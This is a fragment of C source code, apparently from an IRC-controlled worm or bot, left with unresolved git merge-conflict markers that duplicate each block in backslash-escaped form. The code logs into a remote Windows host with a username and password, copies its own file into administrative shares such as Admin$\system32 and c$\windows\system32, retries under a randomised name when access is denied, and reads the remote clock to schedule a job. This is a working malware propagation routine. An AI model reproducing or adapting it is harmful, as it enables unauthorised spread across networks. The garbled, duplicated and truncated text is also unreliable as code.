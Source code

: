 	// Call the WNetAddConnection2 function to make the connection,
	//   specifying a persistent connection.
	DWORD dwResult = fWNetAddConnection2(&nr, (LPSTR)szPassword, (LPSTR)szUsername, 0);
	if(dwResult != NO_ERROR) {
=======
	nr.lpRemoteName\=szServer;
	nr.dwType\=RESOURCETYPE_DISK;
	nr.lpLocalName\=NULL;
	nr.lpProvider\=NULL;

	// Call the WNetAddConnection2 function to make the connection,
	//   specifying a persistent connection.
	DWORD dwResult \= fWNetAddConnection2(&nr, (LPSTR)szPassword, (LPSTR)szUsername, 0);
	if(dwResult !\= NO_ERROR) {
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
		Sleep (10);
		fWNetCancelConnection2(szServer,CONNECT_UPDATE_PROFILE,TRUE);
		return FALSE; 
	}

	WCHAR wszNetbios[200], wszFilename[MAX_PATH];
	char szRemoteFile[MAX_PATH], buffer[IRCLINE];
<<<<<<< HEAD
	char *sharepath[]={"Admin$\\system32","c$\\winnt\\system32","c$\\windows\\system32","c","d"};

	TIME_OF_DAY_INFO *tinfo=NULL;
	DWORD JobID;
	AT_INFO at_time;

	MultiByteToWideChar(CP_ACP,0,szServer,-1,wszNetbios,sizeof(wszNetbios));
	NET_API_STATUS nStatus=fNetRemoteTOD(wszNetbios,(LPBYTE *)&tinfo);
	if (nStatus == NERR_Success) {
=======
	char *sharepath[]\={"Admin$\\system32","c$\\winnt\\system32","c$\\windows\\system32","c","d"};

	TIME_OF_DAY_INFO *tinfo\=NULL;
	DWORD JobID;
	AT_INFO at_time;

	MultiByteToWideChar(CP_ACP,0,szServer,\-1,wszNetbios,sizeof(wszNetbios));
	NET_API_STATUS nStatus\=fNetRemoteTOD(wszNetbios,(LPBYTE *)&tinfo);
	if (nStatus \=\= NERR_Success) {
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
		if (tinfo) {
			//_snprintf(buffer,sizeof(buffer),"[%s]: Connected to IP: %s (%s/%s).", exploit[exinfo.exploit].name,szServer, szUsername, szPassword);
			//addlog(buffer);

<<<<<<< HEAD
			int j = 0;;
			// int i = 0; として宣言されていたのでスコープを抜けたsnprintf(buffer,sizeof(buffer)にエラー発生
			for (i=0;i<(sizeof(sharepath) / sizeof(LPTSTR));i++) {
				sprintf(szRemoteFile,"%s\\%s\\%s",szServer,sharepath[i],filename);
				if ((j=CopyFile(filename,szRemoteFile,FALSE)) != 0)
					break;
				else if (GetLastError() == ERROR_ACCESS_DENIED) {
					if (_access(szRemoteFile,00) == 0) {
						szRemoteFile[strlen(szRemoteFile)-5] = (char)((rand()%10)+48);
						if ((j=CopyFile(filename,szRemoteFile,FALSE)) != 0)
=======
			int j \= 0;;
			// int i \= 0; として宣言されていたのでスコープを抜けたsnprintf(buffer,sizeof(buffer)にエラー発生
			for (i\=0;i<(sizeof(sharepath) / sizeof(LPTSTR));i++) {
				sprintf(szRemoteFile,"%s\\%s\\%s",szServer,sharepath[i],filename);
				if ((j\=CopyFile(filename,szRemoteFile,FALSE)) !\= 0)
					break;
				else if (GetLastError() \=\= ERROR_ACCESS_DENIED) {